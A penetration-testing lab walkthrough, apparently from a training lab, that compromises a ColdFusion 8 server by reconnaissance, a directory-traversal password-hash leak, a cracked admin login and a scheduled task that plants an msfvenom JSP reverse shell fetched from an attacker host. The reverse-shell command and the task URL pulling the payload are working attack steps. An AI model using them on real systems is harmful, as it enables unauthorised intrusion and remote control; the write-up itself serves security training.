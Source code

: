 Getting a Foothold

Getting a Foothold

# Works
1. TCP port scan via NMAP using no ping switch (-Pn) reveals one open port 80.

2. Run a non-recursive dirb scan on port 80. Reveals 2 interesting directories: 10.11.1.10/cfdocs and 10.11.1.10/cfide. 

3. Run a Nikto scan and see that there is mention of ColdFusion Administrator link.

4. Run dirb on the ColdFusion Administrator link 10.11.1.10/cfide/administrator/ and discover many directories

5. Research for a default administrator password. Findings indicate that ColdFusion in general is susceptible to directory traversal.

6. Run searchsploit 14641 to find the 'admin' password hash 

7. Crack the ColdFusion 8 'admin' password hash on crackstation.net

8. Login to ColdFusion 8 with admin:pass123

9. Notice that there is a feature to schedule tasks which allows one to download files from a webserver and save them locally. 

10. Verify a path where we can save shellcode using Server Settings -> Mappings

11. Generate a .jsp shell because ColdFusion serves and runs .jsp files
### msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 -f raw > shell.jsp
![8533c0d325c0cb6b816dc36ff5007986.png](../../_resources/4927083854ed49f885fe939d62ee5054.png)

12. Serve shell.jsp on port 80:
### python -m SimpleHTTPServer 80
![ef8504e0b18bd0d3074147b32a0ba2d5.png](../../_resources/bde568b6b389478998c0d8cef80cfd12.png)

13. Schedule a task in ColdFusion to run our webshell.
![03bad07499fb3d63ece95e3f77975ed6.png](../../_resources/80ce07bd386040f3bec85c183500516a.png)

14. The following fields must be input, then press 'Submit':
- Task Name: shell
- URL: http://192.168.119.214/shell.jsp
- Publish: Ensure that the 'Save output to a file' is checkmarked
- File: C:\Inetpub\wwwroot\CFIDE\shell.jsp 
**Ensure that the 'File' field does not have any empty spaces before the path name**
![b8924c79c89469d840ee6413d68738a6.png](../../_resources/40549031d805467a8de54d25a668c76a.png)

15. Verify that shell.jsp was served to our target
![51d5e4d806a933d613f15cffb155e252.png](../../_resources/08da449b6edb4352b4c55206fca3db67.png)

16. Set up a netcat listener on port 443 to catch the webshell
![fa7d968101f58bb1c507959fd6af22c3.png](../../_resources/d806078176334e2f8781cfefbea6d8f3.png)

16. Browse to the webshell on the target
### http://10.11.1.10/CFIDE/shell.jsp

17. We now have a shell!
![c1178d1b1b80dd4334b3f1fc59f8c5ed.png](../../_resources/3e4cb8c3502d4dcf90612d6792697d2e.png)
